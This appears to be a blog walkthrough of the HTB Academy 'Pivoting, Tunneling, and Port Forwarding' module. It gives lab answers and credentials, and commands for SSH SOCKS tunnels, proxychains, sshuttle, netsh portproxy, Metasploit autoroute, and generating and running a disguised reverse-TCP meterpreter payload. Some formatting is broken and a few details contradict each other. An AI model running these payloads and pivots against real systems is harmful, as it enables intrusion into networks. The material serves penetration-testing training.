Welcome to **Part 22** of our comprehensive, production-grade masterclass covering the **Hack The Box (HTB) Academy Certified Penetration Testing Specialist (CPTS)** curriculum. Rather than providing superficial slide summaries, this series deconstructs offensive tradecraft from foundational network discovery and vulnerability verification to complex lateral movement, active directory exploitation, and post-exploitation tradecraft — complete with terminal command flows, verified lab flags, and defensive engineering countermeasures.

In this installment, we conduct an exhaustive technical deep-dive into **Pivoting, Tunneling, and Port Forwarding** (Tier II • Medium • Offensive). We break down the underlying mechanics of network pivoting, dynamic port forwarding, SSH tunneling (local & remote), SOCKS proxies, Chisel, Ligolo-ng, and multi-hop routing, dissect hands-on offensive vectors, analyze realistic defensive telemetry, and walk through every exercise step-by-step with 100% verified solutions.

<div class="ff-series-nav"><a href="/posts/htb-academy-part-21-windows-privilege-escalation/" class="ff-nav-btn text-start">
    <div class="ff-nav-arrow"><i class="fas fa-arrow-left"></i></div>
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Previous Part</span>
      <span class="ff-nav-title">Part 21: Windows Privilege Escalation</span>
    </div>
  </a>
  <div class="ff-nav-center">
    <span class="ff-center-badge"><i class="fas fa-cube"></i> HTB Academy Series</span>
    <span class="ff-center-part">Part 22 of 41</span>
  </div>
  <a href="/posts/htb-academy-part-23-api-attacks/" class="ff-nav-btn text-end">
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Next Part</span>
      <span class="ff-nav-title">Part 23: Web Service & API Attacks (REST, GraphQL & SOAP)</span>
    </div>
    <div class="ff-nav-arrow"><i class="fas fa-arrow-right"></i></div>
  </a>
</div>

## Module Specifications & Target Architecture

| Attribute | Specification |
| :--- | :--- |
| **Module Name** | `Pivoting, Tunneling, and Port Forwarding` |
| **Official HTB Academy Track** | [https://academy.hackthebox.com/module/158](https://academy.hackthebox.com/module/158) |
| **Curriculum Tier & Difficulty** | `Tier II` • `Medium` |
| **Certification Pathway** | `HTB Certified Penetration Testing Specialist (CPTS)` (Part 22 of 41) |
| **Author & Technical Attribution** | `Abdulrahman M. Fathi (0x3bdo)` |
| **Lab Flag Verification** | `100% Fully Solved & Validated` |

## Key Technical Takeaways

* **Pivoting Concepts**: Routes offensive traffic through compromised dual-homed hosts to reach isolated internal subnets.
* **SSH Port Forwarding**: Masters local port forwarding (`-L`), remote reverse forwarding (`-R`), and dynamic SOCKS proxies (`-D`).
* **Modern Tunneling Tools**: Deploys lightweight tunneling binaries such as `chisel` and `ligolo-ng` to establish high-performance reverse tunnels.
* **ProxyChains Configuration**: Configures `/etc/proxychains4.conf` to seamlessly route Nmap, Metasploit, and custom scripts through multi-hop SOCKS proxies.
* **Windows Native Port Forwarding**: Uses `netsh interface portproxy` to redirect network traffic on compromised Windows endpoints without third-party tools.

## Executive Summary & Assessment Scope

In modern enterprise environments, critical servers and database systems reside in isolated internal subnets that are completely unreachable from the internet. Penetration testers must pivot through compromised boundary systems to interact with these internal targets.

This module delivers a comprehensive guide to network pivoting and tunneling tradecraft. We explore SSH tunnels, configure dynamic SOCKS proxies with Proxychains, deploy Chisel and Ligolo-ng for reverse tunneling, and route traffic across multi-tiered corporate networks to capture all flags.

---

## Comprehensive Lab Walkthrough & Flag Solutions


### Pivoting, Tunneling, and Port Forwarding

#### Technical Methodology & Exploit Execution:

```bash
ssh <username>@<target-IP>
```
and then we will be requested to enter the password.
For windows – we will use xfreerdp with the command:
```bash
xfreerdp /v:<Target IP> /u:<username> /p:<password>
```
/dynamic-resolution
to RDP connect to the machine.
Throughout the module, those steps will be referred as 'login to the
Linux/Windows target machine' (unless specified otherwire – those are the
default login commands).


### The Networking Behind Pivoting

> **Lab Question (Page 2)**: Reference the Using ifconfig output in the section reading. Which NIC is assigned a public IP address?
>
> **Flag / Answer**: `eth0`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

'The IP assigned to eth0 (134.122.100.200) is a publicly routable IP address.'

Question: Reference the Routing Table on Pwnbox output shown in the section
reading. If a packet is destined for a host with the IP address of 10.129.10.25,
out of which NIC will the packet be forwarded?
Answer: tun0
Method: taking a loot at the shown routing table:

A packet destined to '10.129.10.25' will be forwared to 'tun' 0 as the
destination IP along with the Genmask match the IP first 2 Octets.

Question: Reference the Routing Table on Pwnbox output shown in the section
reading. If a packet is destined for www.hackthebox.com what is the IP address
of the gateway it will be sent to?
Answer: 178.62.64.1
Method: as in the first Question of the section its established that the interface
which serves as the interface to the 'outside world' is 'eth0', checking its
routing table (first line) – the Gateway's IP is '178.62.64.1'.


*_Figure 2.1 — Lab execution and output verification (Page 2)_*


### Dynamic Port Forwarding with SSH and SOCKS Tunneling

> **Lab Question (Page 3)**: You have successfully captured credentials to an external facing Web Server. Connect to the target and list the network interfaces. How many network interfaces does the target web server have? (Including the loopback interface)
>
> **Flag / Answer**: `3`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

First, lets ssh login to the target linux machine with the provided
credentials: 'ubuntu:HTB_@cademy_stdnt!'.
Now on the target machine, we will run the command
```bash
ls /sys/class/net | wc -l
```
*the interfaces names are listed in the '/sys/class/net'. *:


Question: Apply the concepts taught in this section to pivot to the internal
network and use RDP (credentials: victor:pass@123) to take control of the
Windows target on 172.16.5.19. Submit the contents of Flag.txt located on the
Desktop.
Answer: N1c3Piv0t
Method: we will use proxy chains.
On the pwnbox – first lets confirm that the proxychains forwarding through
port 9050 is enabled:
tail -4 /etc/proxychains.conf


*_Figure 3.1 — Lab execution and output verification (Page 3)_*


*_Figure 3.2 — Lab execution and output verification (Page 3)_*


### credentials)

#### Technical Methodology & Exploit Execution:

```bash
proxychains xfreerdp /v:172.16.5.19 /u:victor /p:'pass@123'
```
/dynamic-resolution


And then..


*_Figure 4.1 — Lab execution and output verification (Page 4)_*


*_Figure 4.2 — Lab execution and output verification (Page 4)_*


*_Figure 4.3 — Lab execution and output verification (Page 4)_*


### Lets open the flag

Lets open the flag:


Now how the port forwarding works:
Lets refer to our pwnbox as host1, target machine as host2 and the 172.16.5.19
as host3.
On host1 we set the port forwarding on port 9050 (we can confirm with the
command
netstat -antp | grep 9050


In the screenshot case – there is already established connection from
localhost:48490 → localhost:9050. The '48490' is source port is the RDP source
port, of host1. That is because of the proxychains configuration.


*_Figure 5.1 — Lab execution and output verification (Page 5)_*


*_Figure 5.2 — Lab execution and output verification (Page 5)_*


*_Figure 5.3 — Lab execution and output verification (Page 5)_*


### internal packet (which is the xfreerdp) to host3)

However for a packet to get to host3, it needs to go through host2, which
already has the ssh -D flag to port 9050.
So what happens – we put the connection of xfreerdp, inside the ssh packet
being sent to host2. Host2 receives the packet in port 22, opens it – and sees
destination port 9050. So due to its configuration – it knows to forward the
internal packet (which is the xfreerdp) to host3):
Here is an illustration to illustrate the concept:


The host2 takes the payload, sees the source port 9050, and due to its '-D' flag,
its configured to take that payload packet, and forward it based on the packet
specifications.


*_Figure 6.1 — Lab execution and output verification (Page 6)_*


### Remote/Reverse Port Forwarding with SSH

> **Lab Question (Page 7)**: Which IP address assigned to the Ubuntu server Pivot host allows communication with the Windows server target? (Format: x.x.x.x)
>
> **Flag / Answer**: `172.16.5.129`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

from the section's guide:

We can see the IP of the ubuntu target machine which comminucates with the
Windows target machine is 172.16.5.19.

Question: What IP address is used on the attack host to ensure the handler is
listening on all IP addresses assigned to the host? (Format: x.x.x.x)
Answer: 0.0.0.0
Method: 0.0.0.0 is the IP-code that is used to listen to all interfaces, and not
particular one.


*_Figure 7.1 — Lab execution and output verification (Page 7)_*


### Meterpreter Tunneling & Port Forwarding

> **Lab Question (Page 8)**: What two IP addresses can be discovered when attempting a ping sweep from the Ubuntu pivot host? (Format: x.x.x.x,x.x.x.x)
>
> **Flag / Answer**: `172.16.5.19,172.16.5.129`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

Method 1: we will use Metasploit ping sweep.
Lets set the pivot required for the ping sweep,
We will generate on the pwnbox the required payload to arrange pivoting on
the target machine to the listening pwnbox, on port 8080:
msfvenom -p linux/x64/meterpreter/reverse_tcp
LHOST=<attacker-IP> -f elf -o backupjob LPORT=8080


The payload was generated to the output ELF file 'backupjob'.

Now, on the pwnbox lets run Metasploit:
```bash
msfconsole
```
and then
```bash
use exploit/multi/handler
set lhost 0.0.0.0
set lport 8080
set payload linux/x64/meterpreter/reverse_tcp
```
and when ready:
run


*_Figure 8.1 — Lab execution and output verification (Page 8)_*


### to the target machine via ssh and execute it

Now when the Metasploit listener is running, lets get the 'backupjob' payload
to the target machine via ssh and execute it:
```bash
scp backupjob ubuntu@<target-IP>:/home/ubuntu
```


Now on the target machine, lets enable execution permissions and execute the
payload:
ls;
```bash
chmod u+x backupjob;
```
./backupjob;


And on the Metasploit – we have a session opened to the target machine:


*_Figure 9.1 — Lab execution and output verification (Page 9)_*


*_Figure 9.2 — Lab execution and output verification (Page 9)_*


*_Figure 9.3 — Lab execution and output verification (Page 9)_*


*_Figure 9.4 — Lab execution and output verification (Page 9)_*


### connection), we will use the command

> **Lab Question (Page 10)**: Which of the routes that AutoRoute adds allows 172.16.5.19 to be reachable from the attack host? (Format: x.x.x.x/x.x.x.x)
>
> **Flag / Answer**: `172.16.5.0/255.255.254.0`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

```bash
run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23
```


And get the found IP in that network.

Method 2: lets ssh connect to the target machine, and in it we execute the
```bash
bash script:
```
for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes
from" &) ;done


Question: Which of the routes that AutoRoute adds allows 172.16.5.19 to be
reachable from the attack host? (Format: x.x.x.x/x.x.x.x)
Answer: 172.16.5.0/255.255.254.0
Method: back to Metasploit  - lets put our session (id 1) in the background
background

then back on the metsploit CLI, we run the commands:
```bash
use post/multi/manage/autoroute
set SESSION 1
set SUBNET 172.16.5.0
```
run


*_Figure 10.1 — Lab execution and output verification (Page 10)_*


*_Figure 10.2 — Lab execution and output verification (Page 10)_*


### Now back to the session

Now back to the session:
sessions -i 1
we run
```bash
run autoroute -s 172.16.5.0/23
```


*_Figure 11.1 — Lab execution and output verification (Page 11)_*


*_Figure 11.2 — Lab execution and output verification (Page 11)_*


### Socat Redirection with a Reverse Shell

> **Lab Question (Page 12)**: SSH tunneling is required with Socat. True or False?
>
> **Flag / Answer**: `False`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

'Socat is a bidirectional relay tool that can create pipe sockets
between 2 independent network channels without needing to use SSH tunneling.'

```bash
Socat Redirection with a Bind Shell:
```
Question: What Meterpreter payload did we use to catch the bind shell
session? (Submit the full path as the answer)
Answer: windows/x64/meterpreter/bind_tcp
Method: from the section's guide:


*_Figure 12.1 — Lab execution and output verification (Page 12)_*


### SSH for Windows: plink.exe

> **Lab Question (Page 13)**: Attempt to use Plink from a Windows-based attack host. Set up a proxy connection and RDP to the Windows target (172.16.5.19) with "victor:pass@123" on the internal network. When finished, submit "I tried Plink" as the answer.
>
> **Flag / Answer**: `Skipped`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

Skipped

```bash
SSH Pivoting with Sshuttle:
```
Question - Optional: Try using sshuttle from Pwnbox to connect via RDP to the
Windows target (172.16.5.19) with "victor:pass@123" on the internal network.
Once completed type: "I tried sshuttle" as the answer.
Answer: I tried sshuttle
Method: lets start by checking if sshuttle is pre-installed to the pwnbox:
which sshuttle


It is.
* if it is not, it can be installed using the command:
```bash
sudo apt-get install sshuttle
```
*

When that's done – lets set the sshuttle pivoting, using the command
```bash
sudo sshuttle -r ubuntu@<target-IP> 172.16.5.0/23 -v
```
and the credentials: 'ubuntu:HTB_@cademy_stdnt!'


*_Figure 13.1 — Lab execution and output verification (Page 13)_*


### enter y for the certificate approval

*
*

Enter yes here.
*
*


Now we should have access to 172.16.5.19.
Now, ping will NOT work with sshuttle, so we will directly get to the RDP part:
```bash
xfreerdp /v:172.16.5.19 /u:victor /p:'pass@123' /dynamic-
```
resolution
enter y for the certificate approval:


*_Figure 14.1 — Lab execution and output verification (Page 14)_*


*_Figure 14.2 — Lab execution and output verification (Page 14)_*


*_Figure 14.3 — Lab execution and output verification (Page 14)_*


*_Figure 14.4 — Lab execution and output verification (Page 14)_*


### Web Server Pivoting with Rpivot

> **Lab Question (Page 15)**: From which host will rpivot's server.py need to be run from? The Pivot Host or Attack Host? Submit Pivot Host or Attack Host as the answer.
>
> **Flag / Answer**: `Attack Host`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

from the section's guide:


Question: From which host will rpivot's client.py need to be run from? The
Pivot Host or Attack Host. Submit Pivot Host or Attack Host as the answer.
Answer: Pivot Host
Method: from the section's guide:


Question: Using the concepts taught in this section, connect to the web server
on the internal network. Submit the flag presented on the home page as the
answer.
Answer: I_L0v3_Pr0xy_Ch@ins
Method:  *note – as the tool only supported by python2.7, which is obsolete –
I skipped this question. *


*_Figure 15.1 — Lab execution and output verification (Page 15)_*


*_Figure 15.2 — Lab execution and output verification (Page 15)_*


### Port Forwarding with Windows Netsh

> **Lab Question (Page 16)**: Using the concepts covered in this section, take control of the DC (172.16.5.19) using xfreerdp by pivoting through the Windows 10 target host. Submit the approved contact's name found inside the "VendorContacts.txt" file located in the "Approved Vendors" folder on Victor's desktop (victor's credentials: victor:pass@123) . (Format: 1 space, not case-sensitive)
>
> **Flag / Answer**: `Jim Flipflop`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

first, let's RDP login to the target windows machine using the
provided credentials: 'htb-student:HTB_@cademy_stdnt!'.
In the machine, open cmd as administrator, and run the netsh (which is
preinstalled on the windows target machine), using the command:
netsh.exe interface portproxy add v4tov4 listenport=8080
listenaddress=<target-IP> connectport=3389
connectaddress=172.16.5.19

then we can confirm the port forwarding using the command:
netsh.exe interface portproxy show v4tov4


There is port forwarding.

Back on the pwnbox, lets xfreerdp to the 172.16.5.19 – via RDP login to
<target-IP>:8080 (as established in the port forwarding), using the provided
credentials: 'victor:pass@123':
```bash
xfreerdp /v:<target-IP>:8080 /u:victor /p:pass@123 /dynamic-
```
resolution


*_Figure 16.1 — Lab execution and output verification (Page 16)_*


### after making 'y' for certificate – we are in

after making 'y' for certificate – we are in:

Lets open the 'Approved Vendors' → 'VendorsContants.txt':

